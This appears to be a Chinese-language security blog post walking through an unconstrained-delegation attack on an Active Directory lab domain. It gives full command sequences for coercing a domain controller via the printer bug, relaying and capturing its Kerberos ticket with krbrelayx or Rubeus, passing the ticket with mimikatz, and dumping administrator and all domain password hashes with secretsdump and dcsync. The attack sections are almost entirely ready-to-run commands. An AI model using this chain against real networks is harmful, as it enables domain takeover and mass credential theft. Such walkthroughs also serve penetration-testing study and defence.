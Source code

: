 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0ODY1NzEwMA==&mid=2247492257&idx=1&sn=564eec6b7023d2155383380cfef96087

#  内网渗透—非约束委派  
原创 摆烂的beizeng  土拨鼠的安全屋   2025-06-14 06:50  
  
# 内网渗透—非约束委派  
# 环境搭建  
  
1、搭建域控制器  
  
2、创建域用户：xxxxxxx  
  
3、授予普通域用户修改和读取SPN权限  
  
https://www.freebuf.com/sectool/252329.html  
  
4、使用xxxxxxx用户注册SPN。  

```
setspn -U -A mysql/linux.htb.com htb.com\xxxxxxx

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPZT5x11JzPRKictoicVSSJFvkHPHrVKFbHGdiaN0dOuiblGxU9NlA1d9lUQ/640?wx_fmt=png&from=appmsg "")  
  
SPN即为服务对象的唯一标识，其中服务用户为xxxxxxx，服务所在的主机为linux.htb.com  
  
6、域控开启打印机服务。  
# 漏洞利用  
## 利用方式1  
  
1、检测域控是否启动打印机。  

```
rpcdump.py @192.168.135.183 | grep MS-RPRN

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPCjwtz45EzttP8XksDHPKNIcLpzmic1tyBdzyeQZ85RaDQKDia3HSzVtA/640?wx_fmt=png&from=appmsg "")  
  
2、添加SPN记录  
  
因为我们是在linux机器上，所以需要使用域用户在当前的linux机器上注册SPN服务。  

```
python3 addspn.py -u &#34;htb.com\xxxxxxx&#34; -p &#34;xxxxxxx&#34; -s host/linux.htb.com 192.168.135.183

```

  
3、在linux机器上添加对应的dns解析记录。  

```
python3.6 dnstool.py -u &#34;htb.com\administrator&#34; -p xxxxxxx -r linux.htb.com  -a add -d 192.168.135.129 192.168.135.183

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP86NyaQfibCXFYpmj3MwzUz8PzIUVOIZhBTuETiczlkU1QNUZYuTichWvw/640?wx_fmt=png&from=appmsg "")  
  
4、触发打印机错误  

```
python3 printerbug.py htb.com/xxxxxxx@192.168.135.183  linux.htb.com

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPfkGnJmOO81WfdPd57AW2XewppVp2iaFmkrkecLEmT5JQNKWxGvshqvw/640?wx_fmt=png&from=appmsg "")  
  
5、开启中继，捕获票据。  

```
python3 krbrelayx.py -p &#34;xxxxxxx&#34; -s xxxxxxx

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPvicxpRKuyXoreemrqAWmKibndQD1bic8riaUQjxfGqTQ1yZkg8onvqA2UA/640?wx_fmt=png&from=appmsg "")  
  
6、导入票据  

```
export KRB5CCNAME=DC\$@HTB.COM_krbtgt@HTB.COM.ccache

```

  
7、获取dc主机上的用户hash  

```
python3 /root/桌面/impacket/examples/secretsdump.py -k dc.htb.com -just-dc-user administrator

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP2IV2hnenbIokbnoqbIBiaBKwIOzolsNb0laEGib9iaEMnGl77ugEfMg8w/640?wx_fmt=png&from=appmsg "")  
## 利用方式2  

```
SpoolSample.exe dc fileserver
Rubeus.exe monitor /interval:1 /filteruser:dc$

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPcZdxJm4Mpva3TaaJSSJdDt9W9hyu1VlkicNoOLzkwH0fVUiaibotrGoSA/640?wx_fmt=png&from=appmsg "")  
  
抓取票据  

```
mimikatz &#34;privilege::debug&#34; &#34;sekurlsa::tickets /export&#34; &#34;exit&#34;

```

  
此时可能抓取不到票据，所以使用Rubeus.exe将票据注入内存。  

```
Rubeus.exe ptt /ticket:

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP6n44qFlv2GJicaGOlYcsyCMReBznagcV8rXI9UqstCqLgrV3LnHlLQQ/640?wx_fmt=png&from=appmsg "")  
  
此时使用mimikazi将票据从内存中提取出来  

```
mimikatz &#34;privilege::debug&#34; &#34;sekurlsa::tickets /export&#34; &#34;exit&#34;

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPUyouwRSibtRpP0oiaVoHic7xajibpaB8KSVw8rMYgWVEOR24wv2MIOH3IQ/640?wx_fmt=png&from=appmsg "")  
  
将票据注入当前会话  

```
mimikatz &#34;kerberos::ptt [0;5736b]-2-1-60a10000-DC$@krbtgt-HTB.COM.kirbi&#34;

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPf5cmn1iaBUia0xFTMAzLsibldSBzqNhrv2HmjGHWqDuJhhRMn69Vvd9xw/640?wx_fmt=png&from=appmsg "")  
  
导出域控hash  

```
mimikatz &#34;lsadump::dcsync /domain:htb.com /all /csv&#34; &#34;exit&#34;

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPIGhTyZtmYm4cxfCtga7OkKTjic70ARYTP8QszENb3cncjHzlic2DFpicA/640?wx_fmt=png&from=appmsg "")  
# 漏洞总结  
  
1、非约束委派攻击，需要主机配置了非约束委派而不是服务账户配置了约束委派。  
  
主机账户配置非约束委派才能导出登陆该主机上用户的TGT。  
  
2、一般来说使用SpoolSample迫使域控回连目标主机回发生错误，一般使用linux的printbug来触发回连。  
  
3、在触发打印机回连接当前主机的时候，如果使用Rubeus.exe来获取票据，在当前主机使用mimikazi是获取不到文本形式的TGT票据。如果要获取文本形式的票据，只需要向域控发起打印机请求使其回连当前主机，然后使用mimikzi抓取即可，无需使用Rubeus.exe来监控获取tgt票据，也就是说两者即可使用其中一个。  
  
https://blog.csdn.net/qq_43645782/article/details/118762916  
  
  
